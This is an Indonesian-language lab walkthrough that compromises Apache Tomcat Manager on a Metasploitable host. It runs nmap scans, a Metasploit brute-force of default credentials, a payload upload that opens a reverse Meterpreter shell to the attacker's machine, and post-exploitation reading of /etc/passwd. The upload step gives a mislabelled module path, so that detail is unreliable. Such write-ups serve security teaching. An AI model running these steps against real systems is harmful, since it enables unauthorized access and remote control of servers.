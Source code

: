 # Introduction

**Apache Tomcat** adalah sebuah server web sumber terbuka (_open source_) dan wadah servlet yang dikembangkan oleh Apache Software Foundation. Fungsinya adalah untuk menjalankan aplikasi web berbasis Java seperti servlet dan JavaServer Pages (JSP). Sederhananya, Tomcat menyediakan lingkungan tempat kode Java dapat dieksekusi dan disajikan sebagai halaman web, sehingga sangat penting dalam ekosistem pengembangan web Java.

Apa Itu **Tomcat Manager**?

Tomcat Manager adalah aplikasi web yang kuat yang digunakan oleh administrator untuk:

-	Mengelola, menginstal, dan menghapus aplikasi web lain yang berjalan di server.

-	Memantau status server.

- Melihat sesi pengguna.

Karena fungsinya yang sangat kuat, Tomcat Manager adalah target utama bagi penyerang.

**Analisis Kerentanan**

Ketika pengguna mencoba mengakses direktori Tomcat Manager (misalnya, http://target.com/manager/html) dan mendapatkan respons **401 Unauthorized**, itu berarti server mengenali bahwa Anda mencoba mengakses area yang dilindungi kata sandi, tetapi Anda belum memasukkan kredensial yang valid.

**1. _Reconnaissence_**

- Analisis jaringan yang sedang dipakai untuk mengetahui IP yang digunakan

```
ifconfig
```
- Memindai seluruh jaringan internal yang saling terhubung untuk mencari target
```
nmap -sn <ip_range>

Ex. nmap -sn 192.168.1.0/24   //scanning the whole connected divices
```
**2. _Scanning and Enumeration_**

- Memindai port default tomcat, yaitu 8080 dan 8180 pada IP target
```
nmap -p 8080,8180 --script=http-title,http-enum <ip_metasploitable>
```
Script _http-title_ adalah salah satu script yang tersedia di Nmap Scripting Engine (NSE). Fungsi utamanya adalah untuk mengambil judul (title) dari halaman web yang berjalan di server target. Sedangkan, _script http-enum_ digunakan untuk membantu menemukan direktori yang tersembunyi.
```
PORT     STATE  SERVICE
8080/tcp closed http-proxy
8180/tcp open   unknown
|_http-title: Apache Tomcat/5.5	   
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /admin/admin_login.jsp: Possible admin folder
|   /admin/adminLogin.jsp: Possible admin folder
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|...
```
Nmap menemukan halaman **manager/html** yang memerlukan otentikasi (**401 Unauthorized**). Ini adalah petunjuk yang sangat penting karena antarmuka manager sering kali memiliki kredensial default yang lemah atau mudah ditebak. Jika kita bisa masuk, kita bisa mengunggah web shell untuk mendapatkan akses.

- Eksplorasi Web Server menggunakan browser
```
<ip_metasploitable>:8180
```
**3. _Gaining Access (Exploitation)_**
- Menjalankan Metasploit Framework
```
msfconsole
```
- Mencari modul eksploitasi yang sesuai dengan kerentanan yang ditemukan
```
search tomcat manager
```

```
Matching Modules
================

   #   Name                                                   Disclosure Date  Rank       Check  Description
   -   ----                                                   ---------------  ----       -----  -----------
   0   auxiliary/dos/http/apache_commons_fileupload_dos       2014-02-06       normal     No     Apache Commons FileUpload and Apache Tomcat DoS
   1   exploit/multi/http/tomcat_mgr_deploy                   2009-11-09       excellent  Yes    Apache Tomcat Manager Application Deployer Authenticated Code Execution
   2     \_ target: Automatic                                 .                .          .      .
   3     \_ target: Java Universal                            .                .          .      .
   4     \_ target: Windows Universal                         .                .          .      .
   5     \_ target: Linux x86                                 .                .          .      .
   6   exploit/multi/http/tomcat_mgr_upload                   2009-11-09       excellent  Yes    Apache Tomcat Manager Authenticated Upload Code Execution
   7     \_ target: Java Universal                            .                .          .      .
   8     \_ target: Windows Universal                         .                .          .      .
   9     \_ target: Linux x86                                 .                .          .      .
   10  exploit/multi/http/cisco_dcnm_upload_2019              2019-06-26       excellent  Yes    Cisco Data Center Network Manager Unauthenticated Remote Code Execution
   11    \_ target: Automatic                                 .                .          .      .
   12    \_ target: Cisco DCNM 11.1(1)                        .                .          .      .
   13    \_ target: Cisco DCNM 11.0(1)                        .                .          .      .
   14    \_ target: Cisco DCNM 10.4(2)                        .                .          .      .
   15  auxiliary/admin/http/ibm_drm_download                  2020-04-21       normal     Yes    IBM Data Risk Manager Arbitrary File Download
   16  auxiliary/scanner/http/tomcat_mgr_login                .                normal     No     Tomcat Application Manager Login Utility
   17  exploit/multi/http/tomcat_partial_put_deserialization  2025-03-10       excellent  Yes    Tomcat Partial PUT Java Deserialization
   18    \_ target: Unix Command                              .                .          .      .
   19    \_ target: Windows Command                           .                .          .      .
```
```
|Modul	              |Tipe	     |Fungsi
|tomcat_mgr_login	  |scanner	 |Mencari kredensial valid dengan serangan brute-force.	
|tomcat_mgr_upload	  |exploit	 |Mengunggah dan menyebarkan (deploy) web shell dengan kredensial yang sudah diketahui.
|tomcat_mgr_deploy	  |exploit	 |Sebagian besar berfungsi sama seperti _upload, yaitu untuk menyebarkan payload.
```
- Memilih dan mengatur eksploitasi
```
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS <ip_metasploitable>
set RPORT 8180
set LHOST <ip_kali_linux>
```
Mencari cridential valid (username dan password) menggunakan _bruteforce_ dari modul __login_

- Cek _requirement_, pastikan tidak ada yang kurang atau terlewat
```
show options
```
- Jika sudah lengkap, jalankan serangan
```
exploit
```

```
[-] ...
[-] 192.168.175.90:8180 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 192.168.175.90:8180 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 192.168.175.90:8180 - Login Successful: tomcat:tomcat
[-] 192.168.175.90:8180 - LOGIN FAILED: both:admin (Incorrect)
[-] 192.168.175.90:8180 - LOGIN FAILED: both:manager (Incorrect)
[-] ...
```
- Menggunakan credential untuk eksploitasi lanjutan menggunakan _upload
```
use auxiliary/scanner/http/tomcat_mgr_upload
set RHOSTS <ip_metasploitable>
set LHOST <ip_kali_linux>
exploit
```

```
[*] Started reverse TCP handler on 192.168.175.235:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying qlDaWVxPYvWkOSS65i...
[*] Executing qlDaWVxPYvWkOSS65i...
[*] Undeploying qlDaWVxPYvWkOSS65i ...
[*] Undeployed at /manager/html/undeploy
[*] Sending stage (58073 bytes) to 192.168.175.90
[*] Meterpreter session 1 opened (192.168.175.235:4444 -> 192.168.175.90:55683) at 2025-08-18 22:03:40 -0400

meterpreter >
```
**4. _Maintaining accsess dan Post exploitation_**
- Verifikasi user atau akses root
```
whoami
```
- Eksplorasi sistem
```
ls -l                    //melihat list file dan direktory
```
```
uname -a                 //melihat versi kernel dan informasi sistem
```
```
cat /etc/passwd          //melihat daftar user
```
```
cd /root                 //mencari file sensitif
```
